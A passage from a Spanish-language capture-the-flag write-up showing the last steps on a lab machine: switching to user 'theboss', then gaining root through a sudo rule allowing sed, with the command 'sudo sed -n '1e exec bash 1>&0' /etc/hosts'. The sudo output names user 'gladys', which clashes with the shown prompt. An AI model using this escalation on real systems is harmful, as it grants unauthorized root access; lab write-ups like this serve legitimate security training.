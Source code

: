 Info:

```
theboss@afd32de0f5cd:/opt$ whoami
theboss
```

Y con esto ya seremos el usuario `theboss`.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for gladys on afd32de0f5cd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User gladys may run the following commands on afd32de0f5cd:
    (root) NOPASSWD: /usr/bin/sed
```

Vemos que podemos ejecutar el binario `sed` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo sed -n '1e exec bash 1>&0' /etc/hosts
```

Info:

```
root@afd32de0f5cd:/opt$ whoami
root
```

Con esto veremos que seremos `root` por lo que habremos terminado la maquina.
